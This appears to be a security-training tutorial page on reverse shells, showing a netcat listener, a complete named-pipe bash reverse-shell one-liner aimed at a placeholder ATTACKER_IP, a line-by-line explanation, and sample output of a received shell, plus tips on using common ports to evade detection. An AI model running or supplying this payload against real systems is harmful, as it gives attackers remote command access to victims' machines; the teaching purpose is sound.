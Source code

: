 # Reverse Shell

A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyber attacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

## How Reverse Shells Work

### Set up a Netcat (nc) Listener

Let's now understand how a reverse shell works in a practical scenario using the tool Netcat. This utility supports multiple OSs and allows reading and writing through a network.

As mentioned above, a reverse shell will connect back to the attacker's machine. This machine will be waiting for a connection, so let's use Netcat to listen to a connection using the following command `nc -lvnp 443`.

```shell
attacker@BoB~$ nc -lvnp 443
listening on [any] 4444 ...
```

The command above uses the `-l` option to indicate Netcat to listen or wait for a connection. The `-v` option enables verbose mode. The `-n` option prevents the connections from using DNS for lookup, so it will not resolve any hostname it will use an IP address. Finally, the `-p` flag indicates the port that will be used to wait for the connection, in the case above, port **443**.

Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like **53**, **80**, **8080**, **443**, **139**, or **445**. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.

### Gaining Reverse Shell Access

Once we have our listener set, the attacker should execute what is known as a reverse shell payload. This payload usually abuses the vulnerability or unauthorized access granted by the attacker and executes a command that will expose the shell through the network. There's a variety of payloads that will depend on the tools and <span style="color: inherit;">OS</span> of the compromised system. We can explore some of them [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

As an example, let's analyze an example payload named a **pipe reverse shell**, as shown below.

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

### Explanation of the Payload

- `rm -f /tmp/f` - This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.
- `mkfifo /tmp/f` - This command creates a named pipe, or FIFO (first-in, first-out), at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
- `cat /tmp/f` - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
- `| bash -i 2>&1` - The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f` - This part pipes the shell's output through `nc` (Netcat) to the attacker's IP address (`ATTACKER_IP`) on the attacker's port (`ATTACKER_PORT`).
- `>/tmp/f` -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.

The payload above can expose the shell `bash` through the network to the desired listener.

### Attacker Receives the Shell

Once the above payload is executed, the attacker will receive a **reverse shell**, as shown below, allowing them to execute commands as if they were logging into a regular terminal in the <span style="color: inherit;">OS</span>.

### Attacker Terminal Output (Receiving Shell)

```shell
attacker@BoB~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@machine~$
```

The output above shows the connection coming from the IP `10.10.13.37`, which is the IP address of the compromised target.